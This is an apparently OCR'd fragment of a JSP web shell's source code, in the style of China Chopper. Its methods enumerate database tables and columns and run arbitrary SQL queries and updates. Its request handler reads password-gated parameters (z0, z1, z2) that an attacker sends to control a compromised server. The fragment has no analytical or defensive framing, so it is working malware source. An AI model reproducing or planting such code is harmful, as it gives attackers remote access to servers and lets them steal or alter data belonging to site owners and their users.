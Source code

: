 ```
    }
    void OO(String s, StringBuffer sb) throws Exception {
        Connection c = GC(s);
        String[] t = { "TABLE" };
        ResultSet r = c.getMetaData().getTables(null, null, "%", t);
        while (r.next()) {
            sb.append(r.getString("TABLE_NAME") + "\t");
        }
        r.close();
        c.close();
    }
    void PP(String s, StringBuffer sb) throws Exception {
        String[] x = s.trim().split("\r\n");
        Connection c = GC(s);
        Statement m = c.createStatement(1005, 1007);
        ResultSet r = m.executeQuery("select * from " + x[3]);
        ResultSetMetaData d = r.getMetaData();
        for (int i = 1; i <= d.getColumnCount(); i++) {
            sb.append(d.getColumnName(i) + " (" + d.getColumnTypeName(i)
                    + ")\t");
        }
        r.close();
        m.close();
        c.close();
    }
    void QQ(String cs, String s, String q, StringBuffer sb) throws Exception {
        int i;
        Connection c = GC(s);
        Statement m = c.createStatement(1005, 1008);
        try {
            ResultSet r = m.executeQuery(q);
            ResultSetMetaData d = r.getMetaData();
            int n = d.getColumnCount();
            for (i = 1; i <= n; i++) {
                sb.append(d.getColumnName(i) + "\t|\t");
            }
            sb.append("\r\n");
            while (r.next()) {
                for (i = 1; i <= n; i++) {
                    sb.append(EC(r.getString(i), cs) + "\t|\t");
                }
                sb.append("\r\n");
            }
            r.close();
        } catch (Exception e) {
            sb.append("Result\t|\t\r\n");
            try {
                m.executeUpdate(q);
                sb.append("Execute Successfully!\t|\t\r\n");
            } catch (Exception ee) {
                sb.append(ee.toString() + "\t|\t\r\n");
            }
        }
        m.close();
        c.close();
    }%>    
<%
    String cs = request.getParameter("z0")==null?"gbk": request.getParameter("z0") + "";
    request.setCharacterEncoding(cs);
    response.setContentType("text/html;charset=" + cs);
    String Z = EC(request.getParameter(Pwd) + "", cs);
    String z1 = EC(request.getParameter("z1") + "", cs);
    String z2 = EC(request.getParameter("z2") + "", cs);
```
